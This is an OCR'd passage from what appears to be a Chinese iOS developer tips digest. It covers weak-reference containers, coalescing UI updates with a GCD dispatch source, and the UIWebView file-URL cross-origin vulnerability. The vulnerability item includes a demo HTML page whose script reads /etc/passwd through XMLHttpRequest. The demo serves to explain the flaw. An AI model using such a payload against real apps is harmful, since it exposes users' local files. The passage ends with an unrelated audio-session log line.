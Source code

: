 方案三：可以妙用`NSValue`的`valueWithNonretainedObject`方法，被添加的对象不需要服从`NSCopying`协议；

方案四：使用我们通常用的强持有容器，让被添加的对象weak一下，比如使用`__weak`和`block`配合：在`block`中返回weak对象。

如果有其他思路的，欢迎提出！

利用 Custom event 解决一个小问题
--------
**作者**: [_拿破仑的_风火轮_](https://weibo.com/u/2293476232)

做IM开发时,有个场景是:数据异步处理,回到主线程刷新UI、展示消息给用户看到.当用户短时间内收到很多条消息时,我们不想对UI进行频繁而累赘的更新,理想的情况是当主线程繁忙时将所有的改变联结起来。此时,可以利用联结的优势(在异步线程上调用 `dispatch_source_merge_data` 后，就会执行 `dispatch source` 事先定义好的 `handler` )。使用 `DISPATCH_SOURCE_TYPE_DATA_ADD`，将刷新UI的工作拼接起来，短时间内做尽量少次数的刷新。

伪代码

![](https://github.com/southpeak/iOS-tech-set/blob/master/images/2018/01/20-1-1.png?raw=true)

执行结果

![](https://github.com/southpeak/iOS-tech-set/blob/master/images/2018/01/20-1-2.png?raw=true)

欢迎大家分享其他思路.

谈一谈iOS平台跨域访问漏洞
--------
**作者**: [Lefe_x](https://weibo.com/u/5953150140)

最近很多关于 `iOS Webview` 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 @折腾范儿_味精 的指点。

iOS平台跨域访问漏洞成因是由于 `UIWebView` 默认开启了`WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 选项。这样黑客利用这个漏洞给某个 APP 下发一个 `HTML` 文件，当 `UIWebView` 使用 `file` 协议打开这个 `HTML` 文件，而 `HTML` 文件中含有一段窃取用户数据的 `JS` 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 `Demo`，截图是运行结果。

```objc
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```


[AVAudioSession setActive:withOptions:error:]: Deactivating an audio session that has running I/O. All I/O should be stopped or paused prior to deactivating the audio session.`